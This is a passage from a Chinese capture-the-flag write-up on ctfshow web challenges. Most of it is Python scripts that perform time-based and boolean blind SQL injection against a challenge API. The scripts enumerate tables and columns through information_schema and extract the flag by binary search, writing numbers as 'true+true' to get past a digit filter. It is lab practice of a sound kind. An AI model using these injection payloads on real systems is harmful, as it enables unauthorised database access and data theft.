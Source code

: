 ```python
    
        if r > 0.8: #响应时间超过0.8s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
这里由于是利用group，那么有几条语句就会执行几次sleep，所以sleep(0.05)实际上响应是1s多
## web223（布尔盲注）
这个题过滤了数字，和之前的题差不多
```python
'''
Author: KonDream
Date: 2021-12-19 19:57:38
LastEditors:  KonDream
LastEditTime: 2021-12-19 20:22:31
Description:  
'''
import requests

url = "http://cc96dd6e-0222-4637-bd24-0aaf6006aff3.challenge.ctf.show/api/"

# 爆数据库名 ctfshow_flagas,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagasabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
# 爆字段
payload = "select flagasabc from ctfshow_flagas"

flag = 'ctfshow{' 

def cal_True(num):
    res = 'true'
    if num == 1:
        return res
    else:
        for i in range(num - 1):
            res += "+true"
        return res


for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:

        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        i_True = cal_True(i)    # 2->true+true
        mid_True = cal_True(mid)

        params = {
            'u' : "if(ascii(substr(({}), {}, true)) > {}, username, 'a')".format(payload, i_True, mid_True),
            'page' : 1,
```